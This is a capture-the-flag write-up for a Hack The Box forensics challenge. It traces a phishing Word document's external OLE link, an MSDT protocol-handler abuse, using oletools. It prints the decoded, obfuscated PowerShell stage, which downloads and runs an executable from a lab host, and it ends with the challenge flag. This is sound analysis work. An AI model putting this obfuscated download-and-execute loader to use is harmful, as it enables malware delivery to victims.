

# Diagnostic

## Challenge Details 

- **CTF:** Hack The Box
- **Category:** Forensics
- **Points:** 20

## Provided Materials

- Host `94.237.56.188:34777`
- Text:

Our SOC has identified numerous phishing emails coming in claiming to have a document about an upcoming round of layoffs in the company. The emails all contain a link to diagnostic.htb/layoffs.doc. The DNS for that domain has since stopped resolving, but the server is still hosting the malicious document (your docker). Take a look and figure out what's going on.

## Solution

Let's try to open `94.237.56.188:34777/layoffs.doc`. This downloads file `diagnostic.doc`. We can analyze this file with [oletools](http://www.decalage.info/python/oletools):

```sh
$ oleid diagnostic.doc 
oleid 0.60.1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Filename: diagnostic.doc
--------------------+--------------------+----------+--------------------------
Indicator           |Value               |Risk      |Description               
--------------------+--------------------+----------+--------------------------
File format         |MS Word 2007+       |info      |                          
                    |Document (.docx)    |          |                          
--------------------+--------------------+----------+--------------------------
Container format    |OpenXML             |info      |Container type            
--------------------+--------------------+----------+--------------------------
Encrypted           |False               |none      |The file is not encrypted 
--------------------+--------------------+----------+--------------------------
VBA Macros          |No                  |none      |This file does not contain
                    |                    |          |VBA macros.               
--------------------+--------------------+----------+--------------------------
XLM Macros          |No                  |none      |This file does not contain
                    |                    |          |Excel 4/XLM macros.       
--------------------+--------------------+----------+--------------------------
External            |1                   |HIGH      |External relationships    
Relationships       |                    |          |found: oleObject - use    
                    |                    |          |oleobj for details        
--------------------+--------------------+----------+--------------------------
```

We are told to use `oleobj` for details:

```sh
$ oleobj diagnostic.doc 
oleobj 0.60.1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

-------------------------------------------------------------------------------
File: 'diagnostic.doc'
Found relationship 'oleObject' with external link http://diagnostic.htb:34777/223_index_style_fancy.html!
```

Let's try to open this `external link`. Empty page... Let's use `Developer Tools` to see the source code:



`char[34]+` strings looks like `base64` encoded text, let's decode it:

```sh
$ echo "..." | base64 -d
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F'))  -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)
```

The first line is `${file} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')`

We can decode it manually.

## Final Flag

`HTB{msDt_4s_A_pr0toC0l_h4nDl3r...sE3Ms_b4D}`

*Created by [bu19akov](https://github.com/bu19akov)*